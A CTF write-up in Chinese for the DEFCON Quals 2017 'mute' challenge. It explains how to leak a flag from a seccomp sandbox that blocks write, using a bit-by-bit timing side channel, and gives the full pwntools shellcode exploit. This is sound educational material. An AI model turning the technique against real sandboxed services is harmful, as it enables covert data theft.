

# DEFCON Quals 2017: mute (Pwn)

> [mute](mute)

## 解題

這題目我沒有在限時前解開，遲了三分鐘😭。



這個執行檔用`mmap`分配4096 bytes的可執行記憶體空間，從`STDIN`讀取4096 bytes入這個空間，最後直接跳到這個空間的位址去執行。即是說這個程式會執行任何輸入的shellcode。

當然DEFCON的題目不會這樣簡單。在讀入shellcode之前有一個`dropSyscalls`函數，這個函數使用[seccomp](https://en.wikipedia.org/wiki/Seccomp)禁止系統呼叫，只容許部份在白名單中的呼叫。所有被容許的系統呼叫如下：

- read
- open
- close
- stat
- fstat
- lstat
- poll
- lseek
- mmap
- mprotect
- munmap
- brk
- execve

留意`sys_write`是被禁止的。你可以執行任意指令，只是不許輸出任何內容。

其他題目的flag都是在一個叫`flag`的檔案，這題目應該也不例外。寫機械碼呼叫`sys_open`和`sys_read`讀取這個檔案並不困難。難題是我們不能直接把結果寫到STDOUT，要怎樣回傳flag？我先是在找有沒有一些奇怪的系統呼叫沒有被禁止，可是這個程式先是把seccomp預設設為禁止，再逐一開放個別呼叫，看起來是滴水不漏。既然不能直接輸出，只好想一下有沒有side-channel。

我最後用了timing作為訊息輸出內容。方法是逐次讀取檔案內容，每次只讀取其中一位元。如果這個位元是1的話就進入無限迴圈，否則就結束程式。從連線有否被中斷就可以判斷這一位元的值。這樣重複執行，不用很長時間就可取得完整的flag。

```python
s = ""
for i in range(10):
    c = 0
    for j in range(8):
        r = process('mute')
        #r = remote("mute_9c1e11b344369be9b6ae0caeec20feb8.quals.shallweplayaga.me", 443)
        r.readline()

        src = pwnlib.shellcraft.amd64.linux.open("flag", 0)
        src += pwnlib.shellcraft.amd64.mov("r8", "rax")
        src += pwnlib.shellcraft.amd64.linux.lseek("r8", i, 0)
        src += pwnlib.shellcraft.amd64.linux.read("r8", "rsp", 1)
        src += """
            movzx	eax, BYTE PTR [rsp]
            movsx	edx, al
            mov	eax, %s
            mov	ecx, eax
            sar	edx, cl
            mov	eax, edx
            and	eax, 1
            test	eax, eax
            je	.L2
        .L3:
            jmp	.L3
        .L2:
            leave
            ret
        """ % j
        log.info(src)
        sc = asm(src)
        r.send(sc + "\0" * (0x1000 - len(sc)))
        try:
            r.recv(timeout=1)
            c = (c >> 1) | 128
        except EOFError:
            c = c >> 1
    sys.stdout.write(chr(c))
    sys.stdout.flush()
```

## 完整解答

[mute.py](mute.py)
